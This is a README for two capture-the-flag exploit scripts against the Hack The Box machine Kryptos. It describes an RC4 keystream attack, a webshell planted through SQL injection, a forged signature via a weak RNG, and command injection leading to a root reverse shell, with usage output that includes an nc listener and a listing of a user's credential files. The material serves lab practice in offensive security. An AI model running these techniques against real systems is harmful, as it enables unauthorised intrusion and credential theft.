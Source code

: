 ## Challenge

[Kryptos](https://www.hackthebox.eu/home/machines/profile/183) from Hackthebox.eu

## File System Shell

### Description

The webpage on Kryptos allows me to request a webpage which it will fetch, and encrpyt with AES or RC4 using a static key. This shell will hosts known plaintext and have Kryptos fetch it to retrieve the RC4 key stream. Then it will fetch encrypted versions of internal sites that I can't access otherwise, and use the key stream to decrypt them.

The shell can use php base64 filter to get source for php pages. 

It also takes advantage of an SQL injection to write a webshell, giving file system access to the Kryptos host.

### Reference

Originally published in blog posts: https://0xdf.gitlab.io/2019/09/21/htb-kryptos.html

### Dependencies

[cmd](https://docs.python.org/3/library/cmd.html)

### Usage

```
root@kali# ./encrypted_page.py 
[*] Getting token from root page
[+] Got token
[*] Submitting Login
[+] Logged in to page
[*] Starting webserver on 7001 to serve content of length 1000
[*] Requesting known page
[+] Derived RC4 keystream
page> http://127.0.0.1/dev/
<html>
    <head>
    </head>
    <body>
        <div class="menu">
            <a href="index.php">Main Page</a>
            <a href="index.php?view=about">About</a>
            <a href="index.php?view=todo">ToDo</a>
        </div>
</body>
</html>
```

```
root@kali# ./encrypted_page.py 
[*] Getting token from root page
[+] Got token
[*] Submitting Login
[+] Logged in to page
[*] Starting webserver on 7001 to serve content of length 1000
[*] Requesting known page
[+] Derived RC4 keystream
[*] Injecting php file for dir walks and file gets
[+] Injected php page as D7JX8DLYU0DOCOL.php
page> ls /home
[*] Starting webserver on 7001 to serve content of length 9155
[*] Requesting known page
[+] Derived RC4 keystream
  .
  ..
  rijndael
page> ls /home/rijndael
  .
  ..
  .bash_history
  .bash_logout
  .bashrc
  .cache
  .gnupg
  .profile
  .ssh
  creds.old
  creds.txt
  kryptos
  user.txt
```

## root Shell


### Description

There is a webserver running on localhost as root, into which I can ijnect python commands. I'll need to use the demo functionality to brute force the insecure random number generator so that I can sign messages. Once I do that, I can send in a command to get a reverse shell. 

### Reference

Originally published in blog posts: https://0xdf.gitlab.io/2019/09/21/htb-kryptos.html

### Dependencies

[cmd](https://docs.python.org/3/library/cmd.html)

### Usage

```
root@kali# ./kryptos_root_shell.py 
[*] Local IP: 10.10.14.30
[*] Creating tunnel to Kryptos
[+] Tunnel created, listening locally on port 33151
[*] Getting expression and signature from /debug
[+] Signature and expression received
[*] Brute forcing seed
[+] Found seed: 7470457370149431962811031290883090829243224817138100905771457032768589014144
[*] Sending command to trigger reverse shell
```

```
root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.129.
Ncat: Connection from 10.10.10.129:56574.
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
```
